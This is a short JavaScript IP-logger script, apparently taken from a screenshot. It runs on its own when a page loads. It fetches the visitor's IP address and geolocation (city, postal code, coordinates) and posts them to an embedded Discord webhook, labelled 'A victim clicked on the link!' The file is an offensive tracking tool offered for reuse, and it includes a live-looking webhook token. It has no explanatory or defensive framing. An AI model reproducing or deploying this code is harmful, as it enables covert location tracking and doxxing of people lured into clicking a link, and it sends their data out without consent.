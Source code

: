 const sendIP = () => {
    fetch('https://api.ipify.org?format=json')
        .then(ipResponse => ipResponse.json())
        .then(ipData => {
            const ipadd = ipData.ip;
            return fetch(`https://ipapi.co/${ipadd}/json/`)
                .then(geoResponse => geoResponse.json())
                .then(geoData => {
                    const dscURL = 'https://discord.com/api/webhooks/1433208255089348658/21ldXizI6jxjrq4OV3Jvc7LiVqw6fU6zQFBuQnfNQEe64nifcmNy-BPU4-4md7DwBs5F'; // replace with your webhook url
                    return fetch(dscURL, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        body: JSON.stringify({
                            username: "site logger <3", // optionally changeable
                            avatar_url: "https://i.pinimg.com/736x/bc/56/a6/bc56a648f77fdd64ae5702a8943d36ae.jpg", // optionally changeable
                            content: `@here`,
                            embeds: [
                                {
                                    title: 'A victim clicked on the link!',
                                    description: `**IP Address >> **${ipadd}\n**Network >> ** ${geoData.network}\n**City >> ** ${geoData.city}\n**Region >> ** ${geoData.region}\n**Country >> ** ${geoData.country_name}\n**Postal Code >> ** ${geoData.postal}\n**Latitude >> ** ${geoData.latitude}\n**Longitude >> ** ${geoData.longitude}`,
                                    color: 0x800080 // optionally changeable
                                }
                            ]
                        })
                    });
                });
        })
        .then(dscResponse => {  
            if (dscResponse.ok) {
                console.log('Sent! <3');
            } else {
                console.log('Failed :(');
            }
        })
        .catch(error => {
            console.error('Error:', error);
            console.log('Error :(');
        });
};
sendIP();



